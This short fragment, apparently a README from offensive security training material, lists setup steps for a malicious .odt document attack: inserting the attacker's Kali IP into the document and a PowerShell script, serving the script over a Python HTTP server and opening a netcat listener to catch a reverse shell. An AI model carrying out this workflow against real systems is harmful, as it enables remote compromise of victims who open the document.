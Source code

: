 ## Instructions
# 1 - Update .odt file with Kali Station LHOST IP (keep port 80)
# 2 - Update offsec.ps1 with Kali Station <LHOST_IP> and <LPORT>
# 3 - Start python server in offsec.ps1 directory: python3 -m http.server 80
# 4 - Start nc listener: nc -nlvp <LPORT>
